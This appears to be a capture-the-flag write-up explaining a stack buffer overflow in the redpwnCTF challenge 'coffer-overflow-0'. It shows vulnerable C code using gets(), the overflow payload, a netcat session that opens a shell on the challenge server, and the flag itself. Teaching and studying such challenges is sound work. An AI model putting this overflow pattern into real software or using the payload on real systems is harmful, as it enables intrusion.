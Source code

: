 # coffer-overflow-0

Author: [roerohan](https://github.com/roerohan)

This is a simple buffer overflow challenge.

# Requirements

- Basic Buffer overflow.

# Source

- [coffer-overflow-0](./coffer-overflow-0).

```
Can you fill up the coffers? We even managed to find the source for you.

nc 2020.redpwnc.tf 31199
```

```c
#include <stdio.h>
#include <string.h>

int main(void)
{
  long code = 0;
  char name[16];
  
  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  setbuf(stderr, NULL);

  puts("Welcome to coffer overflow, where our coffers are overfilling with bytes ;)");
  puts("What do you want to fill your coffer with?");

  gets(name);

  if(code != 0) {
    system("/bin/sh");
  }
}
```

# Exploitation

The goal is clear, we have to somehow set a non-zero value in `code`.
<br />

We see in the code snippet that `name` is alloted 16 bytes, and `code` is alloted 8 bytes (long, 64-bit). Also, the `gets()` function is used, which does not check the size of the input. So, we can simply write past the space alloted for `name` and write into `code`.
<br />

Space in the stack is generally assigned in multiples of 16, so for this function, 32 bits will be assigned. We can simply fill this with `a`s, each `a` being 1 byte, and fill up everything, thus changing the value of `code` as well. We get a shell.

```bash
$ python2 -c "print 'a'*32"
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa

$ nc 2020.redpwnc.tf 31199
Welcome to coffer overflow, where our coffers are overfilling with bytes ;)
What do you want to fill your coffer with?
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
ls
Makefile
bin
coffer-overflow-0
coffer-overflow-0.c
dev
flag.txt
lib
lib32
lib64
cat flag.txt
flag{b0ffer_0verf10w_3asy_as_123}
```

The flag is:

```
flag{b0ffer_0verf10w_3asy_as_123}
```